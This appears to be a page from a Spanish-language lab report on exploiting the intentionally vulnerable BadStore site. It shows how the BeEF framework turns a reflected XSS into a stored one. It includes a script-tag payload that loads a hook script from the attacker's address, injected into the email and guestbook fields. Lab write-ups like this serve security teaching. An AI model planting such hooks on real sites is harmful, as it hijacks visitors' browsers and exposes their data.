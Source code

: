 \documentclass[12pt,oneside,a4paper]{book}
\begin{document}
\begin{enumerate}
\vspace{1em}

\hspace{20pt}
Para explotar la vulnerabilidad se utiliza BeeF, con la finalidad de plantear un \textit{XSS stored} sobre el sitio, el cual sea ejecutado por un tercer usuario al momento de ingresar a la URL infectada. De esta forma obtendremos acceso cierta información de la víctima. Para llevar a cabo esto nos ayudamos de un tercer dispositivo, nuestro equipo host con Windows 11. Así, en nuestra nuestra máquina de atacante ejecutaremos beef y plasmaremos por primera vez el XSS stored sobre la máquina \textit{BadStore}, para que al visitar dicho web site desde la máquina Windows, obtengamos acceso a este dispositivo a través de beef.

\vspace{1em}

\hspace{20pt}
Se ejecuta la siguiente sentencia Javascript sobre el input typetext \textit{Email Address} de la url \textit{http://192.168.1.108/cgi-bin/badstore.cgi?action=myaccount} desde nuestro dispositivo atacante, a la cual como argumento se le asigna nuestra dirección IP:

\vspace{1em}

\begin{center}
	<script src="http://192.168.1.125:3000/hook.js"></script>
\end{center}

\vspace{1em}

\hspace{20pt}
Tras realizar esto, en la interfaz de beef aparecerá nuestra máquina atacante conectada ONLINE. Esto en primera instancia nos confirma el funcionamiento de la explotación de un \textit{XSS reflected}.

\vspace{1em}

\begin{center}
    \texttt{[image: img/115.png]}
\end{center}

\vspace{1em}

\hspace{20pt}
Para convertir este \textit{XSS reflected} en un \textit{XSS stored}, se ejecuta la misma sentencia Javascript sobre el input typetext \textit{Comments:} de la url \textit{http://192.168.1.108/cgi-bin/badstore.cgi?action=guestbook}, debido a que esto se guardará como una nota en el servidor y quedará almacenado de forma permanente.


\end{enumerate}
\end{document}
